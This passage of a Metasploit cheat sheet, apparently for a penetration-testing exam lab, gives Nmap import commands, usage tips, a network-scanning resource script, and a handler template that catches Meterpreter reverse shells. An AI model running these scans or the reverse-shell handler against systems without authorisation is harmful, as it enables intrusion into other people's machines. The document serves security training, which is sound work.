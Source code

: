 ### F. Import existing scan results
If you prefer running standalone Nmap:
```bash
nmap -Pn -sS -sV -O -oX ~/scan.xml 10.10.10.0/24
msfconsole -q -x "workspace -a exam; workspace exam; db_import ~/scan.xml; hosts; services; exit -y"
```

## Practical tips
- Use setg for values reused across modules (RHOSTS, LHOST, THREADS, PROXIES).
- ExitOnSession false keeps handlers alive for multiple shells.
- exploit -j -z runs modules as background jobs and doesn’t grab your console on session open.
- Add spool at the start of scripts to capture logs; spool off at the end.
- workspace keeps each target’s data separate; use one workspace per engagement or exam task segment.
- services -p <ports> -R populates RHOSTS from the DB based on discovered services, streamlining follow-up scanners.
- Add sleep N in .rc scripts when you need to wait (e.g., after launching a handler or while expecting callbacks).
- Keep scripts modular: one for scanning, one for handlers, one for post-exploitation.
- Validate module options with show options and show advanced when building scripts.
- Clean up: jobs -K kills all jobs; sessions -K kills all sessions; unsetg NAME clears global settings.

## Minimal cheat sheet (one-screen flow)
- Run a resource on startup:
```bash
msfconsole -q -r ~/msf-rc/script.rc
```
- Load a resource in-session:
```text
resource ~/msf-rc/script.rc
```
- Capture current flow:
```text
makerc ~/msf-rc/saved_flow.rc
```
- Basic handler .rc:
```text
spool ~/msf-logs/handler.log
setg LHOST 10.10.14.23
setg LPORT 4444
use exploit/multi/handler
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set ExitOnSession false
exploit -j -z
jobs -l
spool off
```
- Baseline scan .rc:
```text
workspace -a exam
workspace exam
spool ~/msf-logs/scan.log
setg RHOSTS 10.10.10.0/24
db_nmap -Pn -T4 -sS -sV -O --top-ports 200 10.10.10.0/24
use auxiliary/scanner/http/http_version
services -p 80,443 -R
run
use auxiliary/scanner/smb/smb_version
services -p 445 -R
run
hosts
services
```
